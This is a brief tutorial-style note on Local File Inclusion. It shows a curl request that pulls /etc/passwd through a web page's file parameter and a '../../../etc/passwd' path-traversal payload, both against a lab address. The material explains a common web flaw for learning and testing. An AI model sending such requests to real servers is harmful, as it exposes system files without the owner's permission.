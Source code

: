 #Vulnerability #Cybersecurity #WebExploit

**Local File Inclusion** (LFI) is the process of including files present locally on the server.

For example say we have a link like this:
``` bash
http://10.10.10.10/?file=home.php
```

To test, we can curl a file from the system:
```
curl 'http://10.10.10.10/?file=/etc/passwd'
```

In the case that a directory was specified as a parameter in the program, for example, */var/www/html*, then the full path for a file we want like */etc/passwd* would be */var/www/html/etc/passwd*. To get past this we can pass something like this:
``` bash
../../../etc/passwd
```